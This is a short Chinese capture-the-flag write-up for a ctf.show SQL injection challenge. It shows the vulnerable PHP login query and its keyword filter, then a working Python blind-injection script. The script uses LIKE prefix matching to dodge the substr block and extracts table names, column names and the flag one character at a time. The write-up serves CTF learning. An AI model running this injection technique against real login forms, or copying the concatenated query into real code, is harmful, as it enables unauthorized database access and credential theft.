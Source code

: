 ```php
查询语句

  //拼接sql语句查找指定ID用户
  $sql = "select pass from ctfshow_user where username = '{$username}'";
      
返回逻辑

  //密码检测
  if(!is_numeric($password)){
    $ret['msg']='密码只能为数字';
    die(json_encode($ret));
  }

  //密码判断
  if($row['pass']==$password){
      $ret['msg']='登陆成功';
    }

  //TODO:感觉少了个啥，奇怪
    if(preg_match('/file|into|ascii|ord|hex|substr/i', $username)){
        $ret['msg']='用户名非法';
        die(json_encode($ret));
    }

```

**新增waf**：substr

没办法进行截断，但其实问题不大

```python
import requests
import sys
url = 'http://a4ac8172-cadd-42ca-a986-771b4ab0400f.challenge.ctf.show/api/'
result = ''
letter = '0123456789abcdefghijklmnopqrstuvwxyz-_,{}'

for i in range(100):
    for j in letter:
        # 查表
        # payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
        # 查字段
        # payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
        # 查flag
        payload = "select group_concat(f1ag) from ctfshow_flxg"
        
        data={
            'username':"admin' and if(({}) like '{}%',1,2) ='1".format(payload,result+j),
            'password':1
        }
        res = requests.post(url=url,data=data)
        if "密码错误" == res.json()['msg']:
            result += j
            print(result)
            break
        if "}" in result:
            exit(0)

```
